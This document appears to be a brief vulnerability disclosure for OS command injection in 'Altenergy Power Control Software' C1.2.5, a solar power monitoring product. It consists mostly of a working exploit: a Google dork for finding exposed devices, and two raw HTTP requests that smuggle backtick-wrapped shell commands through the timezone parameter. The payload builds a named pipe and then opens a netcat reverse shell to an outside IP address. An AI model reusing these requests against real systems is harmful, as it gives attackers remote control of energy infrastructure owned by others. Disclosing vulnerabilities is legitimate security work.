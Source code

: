 ## title : OS command injection affects "Altenergy Power Control Software"
### SW ver : C1.2.5
### Vendor :  https://apsystems.com/
### Google Dork : intitle:"Altenergy Power Control Software"


## Exploit : 


HTTP request : 
```
POST /index.php/management/set_timezone HTTP/1.1
Host: 78.218.230.32:8081
Content-Length: 33
Accept: application/json, text/javascript, */*; q=0.01
X-Requested-With: XMLHttpRequest
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/98.0.4758.102 Safari/537.36
Content-Type: application/x-www-form-urlencoded; charset=UTF-8
Origin: http://78.218.230.32:8081
Referer: http://78.218.230.32:8081/index.php/management/datetime
Accept-Encoding: gzip, deflate
Accept-Language: en-US,en;q=0.9
Connection: close

timezone=`mknod /tmp/backpipe p `
```
HTTP request : 

```
POST /index.php/management/set_timezone HTTP/1.1
Host: 78.218.230.32:8081
Content-Length: 73
Accept: application/json, text/javascript, */*; q=0.01
X-Requested-With: XMLHttpRequest
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/98.0.4758.102 Safari/537.36
Content-Type: application/x-www-form-urlencoded; charset=UTF-8
Origin: http://78.218.230.32:8081
Referer: http://78.218.230.32:8081/index.php/management/datetime
Accept-Encoding: gzip, deflate
Accept-Language: en-US,en;q=0.9
Connection: close

timezone=`/bin/sh 0</tmp/backpipe | nc 156.197.154.12 4444 1>/tmp/backpipe`

```
POC : 
![Alt Text](poc.png)
